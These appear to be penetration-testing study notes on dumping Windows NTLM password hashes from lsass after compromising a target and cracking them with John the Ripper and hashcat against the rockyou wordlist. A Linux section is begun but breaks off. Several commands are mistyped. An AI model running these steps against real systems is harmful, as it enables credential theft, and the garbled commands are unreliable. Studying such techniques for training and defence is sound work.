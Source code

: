 
### ==_**Dumping & Cracking Windows Hashes**_==

  

- ==_Dumping & Cracking NTLM Hashes_==

> Windows stores hashed user account password locally in the SAM (security accounts manager ) database

> Hashing is the process of converting a piece of data into another value

> Authentication and verification of user credentials is facilities by the local security authority (LSA)

> When u use a windows repair utility ⇒ the windows make copy of SAM database and , so this copy need to be deleted manually , so that’s maybe will made u find a copy of SAM database .

> NTLM is a collection of authentication protocols that are utilized in windows of facilitate authentication between computers .

  

- _Dumping & Cracking NTLM Hashes_
    
    - `nmap -sS -sV -O <target ip>` ⇒ To scan open ports and see the running services on this ports
    - After exploit this services and get access of the target system .
    - `pgrep lsas`s ⇒ to copy the lsass process id
    - `migrate <process id >`
    - `hushdump` && `shell`
    - ON our linux ⇒ `vim hashes.txt` && `paste the hashes on it`
    - `john - -format=NT hashes.txt` ⇒ here we use john the ripper to cracking the hashes , using default wordlist of john
    
    > If we want to use wordlist ⇒ `gzip -d /use/share/wordlist/rockyou.txt.gz`
    
    - `john - -format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt` ⇒ here we use john the ripper to cracking the hashes , using rockyou wordlist
    
    > ==_we can use hashcat_==
    
    - `hashcat -a3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt` ⇒ so here we use hashcat with ==-a3 ⇒ which is a type of attack we want (brute-force)== && ==-m <here we need to enter the id of hash we want to crack ( the NTLM hash id is 1000)>==
    
      
    
      
    
      
    

  

  

### _==Dumping & Cracking Linux Hashes==_

  

- ==Dumping & Cracking NTLM Hashes==

> Linux has multi-user support and as a result, multiple users can access the system simultaneously .
